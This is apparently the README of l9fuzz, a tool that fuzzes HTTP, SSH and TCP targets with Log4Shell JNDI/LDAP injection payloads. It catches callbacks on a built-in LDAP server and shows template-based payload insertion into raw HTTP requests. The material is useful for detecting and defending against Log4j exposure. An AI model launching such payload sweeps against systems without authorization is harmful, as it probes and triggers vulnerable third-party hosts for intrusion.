 # l9fuzz

Fuzzes various protocols with JNDI LDAP payloads and listen for ping backs

## Features

- Low CPU/Memory footprint
- Integrated LDAP server
- Trace orignal source and vector
- Gets a direct IP and not a DNS resolver
- Use of templating with multiple tokens over TCP/SSL

## Usage

```
Usage: l9fuzz scan --listen-address=STRING --input-file=INPUT-FILE

Scans url for JNDI

Flags:
  -h, --help                       Show context-sensitive help.

      --timeout=2s
      --wait=1m
  -l, --listen-address=STRING      Listen address (ip:port)
  -i, --input-file=INPUT-FILE      Input file, - for STDIN
  -o, --output-file=OUTPUT-FILE    Output file
  -L, --ldap-debug=LDAP-DEBUG      LDAP server debug log file
  -m, --max-connections=100        Max connections
  -q, --quiet                      No progress bar
  -k, --psk="no-payload-check"     Payload sign key
  -t, --template=STRING            Bypasses protocols and use TCP template (stateless)

```

## Input file format

```
http://12.44.55.66:8000/test
ssh://34.54.33.22:22
ssh://32.54.33.32:22
ssh://34.54.33.25:2222
tls://43.33.44.11:8081
tcp://12.12.12.12:23
55.21.45.11:8080
```

No scheme means `tcp://`.`tcp://`, `tls://` and `ssl://` are only supported in template mode.

## Output

```
$ ./l9fuzz scan -i - -m 400 -l 167.71.13.196:45432 
Started server at 167.71.13.196:45432
[ldap-reply] From: 14.201.105.110:51428 | Source: https://24.201.106.150:443 | Vector: http-header-x-forwarded-for | Delay: 1.849171982s
[ldap-reply] From: 14.201.105.110:51426 | Source: https://24.201.106.150:443 | Vector: http-url-path | Delay: 1.850494525s
[ldap-reply] From: 257.130.120.178:55897 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.506910982s
[ldap-reply] From: 257.130.120.178:10247 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.537421598s
[ldap-reply] From: 257.130.120.178:3467 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.54305658s
[ldap-reply] From: 257.130.120.178:29311 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.577900357s
[ldap-reply] From: 257.130.120.178:45846 | Source: http://45.199.107.194:80 | Vector: http-url-query-value | Delay: 14.764612109s
$ ./l9fuzz scan -t templates/http.txt -i source.txt -l 127.0.0.1:4555
```

## Template mode

If `-t template-file.txt` is specified, `template-file.txt` is sent
over the TCP/SSL connection instead of using the default payloads.

This allows for specifying your own requests while keeping track of fields :

eg `http.txt`:

```
PUT {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-raw-url" }} HTTP/1.1
Host: {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-header-host" }}
X-My-Header: {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-x-my-header" }}

{{ .Fuzzer.PayloadJNDILog4J .Url.String "http-put-body" }}

```

Will generate PayloadJNDILog4J payloads tagged with the source url and vectors (`http-put-body`,`http-raw-url`, ... ).